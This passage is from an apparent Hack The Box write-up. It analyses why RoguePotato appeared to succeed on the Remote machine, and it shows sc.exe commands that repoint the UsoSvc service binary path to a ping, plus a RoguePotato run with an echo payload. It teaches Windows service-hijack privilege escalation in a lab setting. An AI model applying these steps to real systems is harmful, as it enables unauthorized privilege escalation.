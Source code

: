 
There are connections coming into my host on 135, but my host is just
returning TCP resets (because the port isn’t open / listening).

### Solution

I had a quick chat with decoder and he identified what was going on. Earlier
in the video, IppSec roots Remote by modifying the UsoSvc binary path,
changing it to some PowerShell that will download a shell from his host and
run it. I showed this privesc path as an unintended path for
[RE](/2020/02/01/htb-re.html#path-1-abuse-usosvc), and it works here on Remote
as well (I assume unintended). Later, when guessing at CLSIDs trying to make
RoguePotato work, he noticed UsoSvc, and decides to try that CLSID. Then he
gets a shell.

When `RoguePotato.exe` runs, it invokes the service of the corresponding
CLSID, so it isn’t RoguePotato that is getting execution, but reverse shell in
the UsoSvc.

To demonstrate, I’ll change the service `binpath` to a ping:

    
    
    PS C:\programdata> sc.exe config UsoSvc binpath= "ping -n 1 10.10.14.9" 
    [SC] ChangeServiceConfig SUCCESS 
    

I’ll stop and start the service, and on starting, it reports failure, but one
ping comes back:

    
    
    PS C:\programdata> sc.exe stop UsoSvc
    
    SERVICE_NAME: UsoSvc
            TYPE               : 30  WIN32
            STATE              : 3  STOP_PENDING
                                    (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
            WIN32_EXIT_CODE    : 0  (0x0)
            SERVICE_EXIT_CODE  : 0  (0x0)
            CHECKPOINT         : 0x3
            WAIT_HINT          : 0x7530
            
    PS C:\programdata> sc.exe start UsoSvc
    [SC] StartService FAILED 1053:
    
    The service did not respond to the start or control request in a timely fashion.
    

Now I’ll run `RoguePotato.exe` with a payload that doesn’t ping, but just
echos:

    
    
    PS C:\programdata> .\RoguePotato.exe -r 10.10.14.9 -c "{B91D5831-B1BD-4608-8198-D72E155020F7}" -e "echo oops" -l 9999
    

Immediately there is ICMP traffic at `tcpdump`. After a few seconds,
RoguePotato reports failure, with no failed attempts to contact my host on TCP
135. When the service is broken (via the modified `binpath`), it isn’t making
the connection to the Oxid resolver and RoguePotato fails.

[](/2020/09/08/roguepotato-on-remote.html)

